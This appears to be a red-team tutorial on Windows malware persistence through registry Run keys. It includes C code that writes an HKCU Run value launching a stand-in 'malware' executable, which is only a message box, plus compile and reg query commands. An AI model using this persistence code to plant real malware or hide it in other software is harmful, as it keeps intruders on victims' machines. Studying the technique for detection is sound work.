


# 05 persistence - registry run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:     

```powershell
"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce"
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce"
```

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.     

Let’s say we have a "malware" `hack.c`:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

Malware compiling:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Then, let's create a script `pers.c` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * Windows low level persistence via start folder registry key
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\hack.exe";

  // startup
  LONG result = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (result == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

Compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Then, first of all, check registry keys in the victim’s machine:   

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

    

Then, run our `pers.exe` script and check again:    

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

    

So now, check everything in action. Logout and login again:   

    

    

   

Pwn! Everything is worked perfectly :)    

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.    